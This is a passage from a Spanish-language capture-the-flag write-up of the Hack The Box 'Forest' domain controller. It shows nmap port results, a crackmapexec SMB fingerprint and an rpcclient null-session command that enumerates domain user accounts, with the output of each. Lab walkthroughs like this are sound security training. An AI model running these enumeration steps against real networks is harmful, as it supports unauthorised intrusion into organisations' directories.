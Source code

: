 ```java

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct  9 12:00:09 2023 -- 1 IP address (1 host up) scanned in 78.92 seconds
```

Entre los puertos abiertos mas relevantes podemos visualizar:

| Puerto | Servicio | Versión |
| ------ | -------- | --------|
| 53     | DNS     |  Simple DNS Plus|
| 88  | KERBEROS     | Microsoft Windows Kerberos  |
| 135   |  MSRPC     |  Microsoft Windows RPC  |
| 139   | NETBIOS     |  Microsoft Windows netbios-ssn|
| 389   | LDAP     |  Microsoft Windows Active Directory LDAP  |
| 445   |   SMB   | Windows Server 2016 Standard  |
| 3268   |   LDAP   |  Microsoft Windows Active Directory LDAP  |
| 5985   |  WINRM    | Microsoft HTTPAPI httpd 2.0   |



## EXPLOTACION [#](#explotacion) {#explotacion}

Como vemos que el puerto `445` esta abierto, con `crackpamexec` podemos tratar de enumerar a lo que nos enfrentamos.

```bash
❯ crackmapexec smb 10.10.10.161
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
```

Vemos que nos enfrentamos a un `Windows Server 2016` y que el `smb` esta firmado, ahora bien vamos a proceder a agregar el dominio a nuestro `/etc/hosts`.

```bash
❯ echo "10.10.10.161 htb.local" >> /etc/hosts
```

Ahora al tratarse de un `Domain Controller` podemos tratar de enumerar usuarios validos con `rpclient` a traves de un `null session`.

```bash
❯ rpcclient -U '' 10.10.10.161 -N -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]'
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
```